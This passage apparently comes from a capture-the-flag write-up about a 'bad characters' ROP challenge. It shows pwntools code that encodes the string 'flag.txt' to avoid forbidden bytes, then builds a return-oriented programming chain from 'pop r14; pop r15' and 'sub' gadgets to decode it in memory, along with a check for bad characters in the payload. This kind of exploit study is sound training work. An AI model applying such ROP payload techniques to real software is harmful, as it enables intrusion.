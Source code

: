 We have three options to decode our string in memory,
`xor`, `add`, and `sub`. All of these instructions have
the capability to decode our ciphertext, but we'll
use the `sub` instruction which has
the address `0x00400630`

First let's write a function to encode our string.
We're going to use a `sub` gadget to decode the
cipher text so we'll need to add values to encode
it. We'll add 2 to every character since adding 1
would turn the `f` in `flag.txt` into a `g` which
is a forbidden character. The encoding function
looks like this

```python
def encode_str(s):
    blist = bytearray(s)
    for i in range(0, len(blist)):
        blist[i] += 2
    return blist
```

Now let's write a function to decode our cipher text.
The value we want to add will be placed into `r14` (2)
and `r15` will have the address of the byte we want to 
decode. We can reuse the `pop` gadget we found previously 
and skip the instructions which set `r12` and `r13`.
Here's the decoding function

```python
#!/bin/python3
from pwn import *

# useful addresses
sub_addr = 0x00400630       # sub byte [r15], r14b 
pop_r14_r15 = 0x004006a0

def decode_str(addr, s):
    payload = b''
    for i in range(0, len(s)):
        r14 = p64(0x2)
        r15 = p64(addr + i)
        payload += p64(pop_r14_r15) + r14 + r15
        payload += p64(sub_addr)
    return payload
```

In addition to this, we can add a check to determine
if an invalid character is present in our payload just
to be safe

```python
# check if payload is valid
invalid_bytes = [ord('x'), ord('g'), ord('a'), ord('.')]
for i in range(len(payload)):
    if payload[i] in invalid_bytes:
        print('invalid char', '"'+chr(payload[i])+'"', 'at index', i)
        exit()
```
